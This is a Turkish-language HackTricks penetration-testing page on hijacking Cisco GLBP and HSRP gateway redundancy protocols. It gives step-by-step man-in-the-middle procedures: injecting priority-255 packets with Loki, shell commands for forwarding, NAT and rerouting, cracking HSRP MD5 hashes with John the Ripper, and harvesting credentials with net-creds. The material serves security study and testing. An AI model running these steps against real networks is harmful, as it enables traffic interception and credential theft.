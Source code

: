 # GLBP & HSRP Saldırıları

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmak için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi **HackTricks'te reklam vermek isterseniz** veya **HackTricks'i PDF olarak indirmek isterseniz** [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>


## FHRP Hijacking Genel Bakış

### FHRP Hakkında Bilgiler
FHRP, birden fazla yönlendiriciyi tek bir sanal birimde birleştirerek ağın sağlamlığını sağlamak için tasarlanmıştır, böylece yük dağıtımını ve hata tolere edebilirliği artırır. Cisco Systems, bu pakette GLBP ve HSRP gibi önde gelen protokoller tanıttı.

### GLBP Protokolü Hakkında Bilgiler
Cisco'nun yaratımı olan GLBP, TCP/IP yığınında çalışır ve iletişim için UDP'yi 3222 numaralı bağlantı noktasında kullanır. GLBP grubundaki yönlendiriciler, 3 saniye aralıklarla "hello" paketleri alışverişi yapar. Bir yönlendirici bu paketleri 10 saniye boyunca göndermezse, çevrimdışı olduğu varsayılır. Bununla birlikte, bu zamanlayıcılar sabit değildir ve değiştirilebilir.

### GLBP İşlemleri ve Yük Dağıtımı
GLBP, tek bir sanal IP ile birden fazla sanal MAC adresi kullanarak yönlendiriciler arasında yük dağıtımını sağlayarak öne çıkar. Bir GLBP grubunda, her yönlendirici paket iletimine dahil olur. HSRP/VRRP'nin aksine, GLBP birkaç mekanizma aracılığıyla gerçek yük dengelemesi sunar:

- **Ana Bilgisayara Bağımlı Yük Dengelemesi:** Bir ana bilgisayara sürekli AVF MAC adresi atamasını sağlar, istikrarlı NAT yapılandırmaları için önemlidir.
- **Round-Robin Yük Dengelemesi:** Varsayılan yaklaşım, isteyen ana bilgisayarlara yönelik AVF MAC adresi atamasını sırayla yapar.
- **Ağırlıklı Round-Robin Yük Dengelemesi:** Önceden belirlenmiş "Ağırlık" metriklerine dayanarak yükü dağıtır.

### GLBP'deki Ana Bileşenler ve Terimler
- **AVG (Aktif Sanal Ağ Geçidi):** MAC adreslerini eş yönlendiricilere atama sorumluluğu olan ana yönlendirici.
- **AVF (Aktif Sanal İletici):** Ağ trafiğini yönetmek için belirlenen bir yönlendirici.
- **GLBP Önceliği:** AVG'yi belirleyen bir metrik, varsayılan olarak 100'den başlar ve 1 ile 255 arasında değişir.
- **GLBP Ağırlığı:** Bir yönlendiricideki mevcut yükü yansıtır, manuel olarak veya Nesne İzleme aracılığıyla ayarlanabilir.
- **GLBP Sanal IP Adresi:** Bağlı tüm cihazlar için ağın varsayılan ağ geçidi olarak hizmet verir.

GLBP, etkileşimler için ayrılmış çoklu yayın adresi 224.0.0.102 ve UDP bağlantı noktası 3222'yi kullanır. Yönlendiriciler "hello" paketlerini 3 saniye aralıklarla ileterek, bir paket 10 saniye boyunca kaçırılırsa işlevsiz kabul edilir.

### GLBP Saldırı Mekanizması
Bir saldırgan, GLBP paketi göndererek en yüksek öncelik değeri (255) ile birincil yönlendirici olabilir. Bu, trafik yakalama veya yönlendirme izni veren DoS veya MITM saldırılarına yol açabilir.

### Loki ile GLBP Saldırısı Gerçekleştirme
[Loki](https://github.com/raizo62/loki_on_kali), öncelik ve ağırlık değeri 255 olarak ayarlanmış bir paket enjekte ederek bir GLBP saldırısı gerçekleştirebilir. Saldırı öncesi adımlar, Wireshark gibi araçlar kullanarak sanal IP adresi, kimlik doğrulama varlığı ve yönlendirici öncelik değerleri gibi bilgileri toplamayı içerir.

Saldırı Adımları:
1. Promisküs moduna geçin ve IP yönlendirmeyi etkinleştirin.
2. Hedef yönlendiriciyi belirleyin ve IP'sini alın.
3. Bir Gratuitous ARP oluşturun.
4. AVG'yi taklit eden kötü niyetli bir GLBP paketi enjekte edin.
5. Saldırganın ağ arayüzüne GLBP sanal IP'sini yansıtan ikincil bir IP adresi atayın.
6. Tam trafik görünürlüğü için SNAT uygulayın.
7. İnternet erişimini orijinal AVG yönlendiricisi üzerinden devam ettirmek için yönlendirmeyi ayarlayın.

Bu adımları takip ederek, saldırgan kendisini ağ trafiğini, şifrelenmemiş veya hassas verileri de içeren bir "orta adam" olarak konumlandırır ve analiz edebilir.

Demonstrasyon için gereken komut parçaları aşağıda verilmiştir:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRP Hijacking ile İlgili Pasif Açıklama ve Komut Detayları

#### HSRP'nin Genel Bakışı (Hot Standby Router/Redundancy Protocol)
HSRP, ağ geçidi yedekliliği için tasarlanmış Cisco'ya ait bir protokoldür. Birden fazla fiziksel yönlendiriciyi paylaşılan bir IP adresine sahip tek bir mantıksal birim olarak yapılandırmayı sağlar. Bu mantıksal birim, trafiği yönlendiren birincil bir yönlendirici tarafından yönetilir. Yük dengelemesi için öncelik ve ağırlık gibi metrikler kullanan GLBP'nin aksine, HSRP trafiği yönetmek için tek bir etkin yönlendiriciye dayanır.

#### HSRP'deki Roller ve Terimler
- **HSRP Etkin Yönlendirici**: Trafik akışını yöneten ağ geçidi olarak hareket eden cihaz.
- **HSRP Bekleme Yönlendirici**: Etkin yönlendirici başarısız olduğunda devralmaya hazır olan yedek yönlendirici.
- **HSRP Grubu**: Tek bir dayanıklı sanal yönlendirici oluşturmak için işbirliği yapan yönlendiricilerin bir kümesi.
- **HSRP MAC Adresi**: HSRP yapılandırmasındaki mantıksal yönlendiriciye atanan sanal MAC adresi.
- **HSRP Sanal IP Adresi**: HSRP grubunun sanal IP adresi, bağlı cihazlar için varsayılan ağ geçidi olarak hareket eder.

#### HSRP Sürümleri
HSRP iki sürümde gelir, HSRPv1 ve HSRPv2, grup kapasitesi, çoklu yayın IP kullanımı ve sanal MAC adresi yapısı gibi farklılıklar gösterir. Protokol, hizmet bilgileri alışverişi için belirli çoklu yayın IP adreslerini kullanır ve Hello paketleri her 3 saniyede bir gönderilir. Bir yönlendiriciye 10 saniye içinde hiç paket alınmazsa etkin olmadığı varsayılır.

#### HSRP Saldırı Mekanizması
HSRP saldırıları, en yüksek öncelik değerini enjekte ederek Etkin Yönlendirici'nin rolünü zorla ele geçirmeyi içerir. Bu, Man-In-The-Middle (MITM) saldırısına yol açabilir. Ön saldırı adımları arasında HSRP yapılandırması hakkında veri toplamak yer alır ve bunu trafik analizi için Wireshark kullanarak yapabilirsiniz.

#### HSRP Kimlik Doğrulamasını Geçme Adımları
1. HSRP verilerini içeren ağ trafiğini .pcap dosyası olarak kaydedin.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. hsrp2john.py kullanarak .pcap dosyasından MD5 karma değerlerini çıkarın.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper kullanarak MD5 karma değerlerini kırın.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Loki ile HSRP Enjeksiyonu Gerçekleştirme**

1. HSRP reklamlarını tanımlamak için Loki'yi başlatın.
2. Ağ arayüzünü promiscuous moduna ve IP yönlendirmeyi etkinleştirin.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Loki'yi kullanarak belirli yönlendiriciyi hedefleyin, kırılmış HSRP şifresini girin ve Etkin Yönlendirici'yi taklit etmek için gerekli yapılandırmaları yapın.
4. Etkin Yönlendirici rolünü aldıktan sonra, ağ arayüzünü ve IP tablolarınızı meşru trafiği yakalamak için yapılandırın.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Trafik yönlendirmesini eski Etkin Yönlendirici üzerinden yönlendirmek için yönlendirme tablosunu değiştirin.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Yakalanan trafiğe net-creds.py veya benzer bir araç kullanarak kimlik bilgilerini yakalayın.
```shell
sudo python2 net-creds.py -i eth0
```

Bu adımları uygulamak, GLBP ele geçirme işlemi için yapılan işlemlere benzer şekilde saldırganı trafiği yakalamak ve manipüle etmek için bir konuma yerleştirir. Bu, HSRP gibi yedeklilik protokollerindeki zayıflığı ve sağlam güvenlik önlemlerine olan ihtiyacı vurgular.


## Kaynaklar
- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin!</summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin.
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz olan [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin.
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da** takip edin.
* **Hacking hilelerinizi HackTricks ve HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>
